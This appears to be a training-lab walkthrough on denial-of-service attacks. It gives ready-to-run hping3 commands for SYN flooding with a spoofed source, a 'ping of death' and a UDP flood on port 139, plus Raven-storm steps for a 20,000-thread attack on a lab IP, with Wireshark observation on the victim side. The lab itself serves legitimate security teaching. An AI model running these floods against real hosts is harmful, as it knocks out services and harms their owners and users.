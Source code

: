 ##### Steps

**On Victim machine**

- Launch Wireshark.
- Start capturing packets by double-clicking on the primary network interface.

**On attacker machine**

- Initiate SYN Flooding:
   - Execute SYN flooding attack: `hping3 -S (Target IP) -a (Spoofed IP) -p 22 --flood`.
   - Stop the attack with `Ctrl+C` after a few seconds.

- Perform Ping of Death (POD) Attack:
   - In Terminal, type `hping3 -d 65538 -S -p 21 --flood (Target IP)` to initiate a POD attack.

- UDP Application Layer Flood Attack:
   - Determine if NetBIOS port 139 is open on the target using `nmap -p 139 (Target IP)`.
   - Execute UDP flood attack: `hping3 -2 -p 139 --flood (Target IP)`.

**On Victim machine**

- Analyze Attack Impact:
   - Observe the captured TCP-SYN packets in Wireshark on victim machine.
   - Analyze the graphical view of captured packets by going to Statistics > I/O Graph.

##### Note:

- `SYN flooding` can lead to system crashes if sustained for a long time.
- `POD attacks` aim to destabilize systems with malformed or oversized packets.
- `UDP application layer flood attacks` overload the victim's resources.

---

#### DOS Attack using Raven-storm

- Raven-Storm is a powerful DDoS tool for penetration testing, featuring Layer 3, Layer 4, and Layer 7 attacks. It is written in Python3 and is effective in shutting down hosts and servers. Here, we will use Raven-storm to perform a DOS attack.

##### Steps:

**On Attacker machine**

- Run Raven-storm:
   - Type `sudo rst` and press Enter to start the Raven-storm tool.

- Load Layer 4 module:
   - Type `14` and press Enter to load the Layer 4 module (UDP/TCP).

**On Victim machine**

- Open Wireshark:
   - Launch Wireshark.
   - Double-click on the primary network interface to start capturing network traffic.

**On Attacker machine**

- Specify target details:
   - In the terminal, type:
      - `ip 10.10.1.19` to specify the target IP address.
      - `port 80` to specify the target port.
      - `threads 20000` to specify the number of threads.
      - Type `run` to start the DOS attack.
      - Raven-storm starts the DOS attack on the target machine.

**On Victim machine**

   - Observe a large number of packets received from the attacker machine.

---
